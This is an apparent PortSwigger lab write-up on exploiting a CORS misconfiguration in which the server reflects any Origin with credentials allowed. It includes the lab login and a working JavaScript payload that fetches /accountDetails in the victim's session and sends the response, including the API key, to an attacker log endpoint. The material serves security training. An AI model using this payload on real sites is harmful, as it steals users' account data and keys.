 ## Lab Description: CORS vulnerability with basic origin reflectiop

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/68bd15a5-9483-46ad-ab35-cb66a7569a61)

## Solution: 

### Server-generated ACAO header from client-specified Origin header

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
It then responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
```

These headers state that access is allowed from the requesting domain (malicious-website.com) and that the cross-origin requests can include cookies (Access-Control-Allow-Credentials: true) and 
so will be processed in-session.

Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. 


First let's login as wiener using the credentials given - wiener:peter

Once logged in , we can see that there is an email update functionality & the API key of wiener.

In the HTTP history tab, we can see that the GET request to /accountDetails contains the ACAC=true header in its response.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/c2465897-98c2-4afb-a15e-89ed39432cfc)

This meaans that if we can able to exploit CORS here then we can able to get the session cookie, API key etc of the user.

Note that there is no Origin header in the request that's why we don't see any Access-Control-Allow-Origin header too.

Exploiting CORS misconfiguration -

If we try to provide Origin: malicious.com , we can see that there is Access-Control-Allow-Origin: malicious.com & Access-Control-Allow-Credentials: true in the response.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/5578e4bf-94e3-4b00-99b9-7960b79e0349)

This means the server takes the Origin provided in the request and sends it back in the response with the header Access-Control-Allow-Origin: <origin.com>.

Go to exploit server and paste the following code.

```
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0aca000b03408aa480b9856d00e600f5.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='/log?key='+this.responseText;
};
</script>
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/065a3611-4297-4a7a-8db9-e3ca298c504f)


![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/621c9f25-7e54-4ac0-a65f-473967f002f7)

Finally We have solved this lab 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/d9f3c90e-9f9c-464a-82e7-94ff3e24833b)


